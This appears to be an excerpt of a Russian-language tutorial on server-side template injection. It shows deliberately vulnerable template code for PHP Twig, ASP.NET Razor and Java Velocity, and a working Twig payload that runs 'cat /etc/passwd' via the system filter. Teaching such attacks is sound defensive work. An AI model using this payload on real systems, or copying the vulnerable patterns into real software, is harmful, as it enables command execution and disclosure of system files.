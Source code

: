 Пример уязвимый к SSTI:

```php=
<?php

require_once('lib/Twig/Autoloader.php');
Twig_Autoloader::register();

$twig = new \Twig_Environment(new \Twig_Loader_String());

echo $twig->render("Error message: ".$_GET['error']);

?>
```

## Проведение атаки инъекции шаблонов

### Сценарий №1 Пример для кода шаблонизатора PHP Twig

Код: 
```php=
echo $twig->render("Error message: ".$_GET['error']);
```

Эксплоит:

```php=
{{['cat\x20/etc/passwd']|filter('system')}}
```

### Сценарий №2 Пример для кода шаблонизатора ASP.NET Razor

Код:
```c#=
[HttpPost]
[ValidateInput(false)]
public ActionResult Index(string razorTpl)
{
	ViewBag.RenderedTemplate = Razor.Parse(razorTpl);
	ViewBag.Template = razorTpl;
	return View();
}
```

Эксплоит:
```=
@{
  // C# code
}
```

### Сценарий №3 Пример для кода шаблонизатора Java Velocity

Код:
```java=
// Set up the context data
VelocityContext context = new VelocityContext();
context.put( "name", user.name );

// Load the template
String template = getUserTemplateFromRequestBody(request);
RuntimeServices runtimeServices = RuntimeSingleton.getRuntimeServices();
StringReader reader = new StringReader(template);
SimpleNode node = runtimeServices.parse(reader, "myTemplate");
template = new Template();
template.setRuntimeServices(runtimeServices);
template.setData(node);
```
